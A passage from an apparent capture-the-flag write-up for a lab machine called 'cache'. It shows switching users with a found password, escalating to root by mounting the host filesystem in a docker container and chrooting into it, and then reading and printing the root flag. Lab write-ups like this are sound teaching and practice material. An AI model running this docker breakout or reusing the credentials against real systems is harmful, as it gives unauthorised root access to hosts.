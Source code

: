 Let's switch to `luffy`:

~~~
ash@cache:~$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/home/ash$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
~~~

## Privesc (docker)

`luffy` is member of the docker group, and there is an `ubuntu` image available:

~~~
luffy@cache:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) reveals that we can escalate our privileges using docker.

~~~
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@b09d72fb07c1:/# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now that we have successfully escalated our privileges, let's get the root flag:

~~~
root@b09d72fb07c1:/# cat /root/root.txt
cat /root/root.txt
4d52ef51dd9bc6be199289040c42dd72
~~~

Root flag: `4d52ef51dd9bc6be199289040c42dd72`
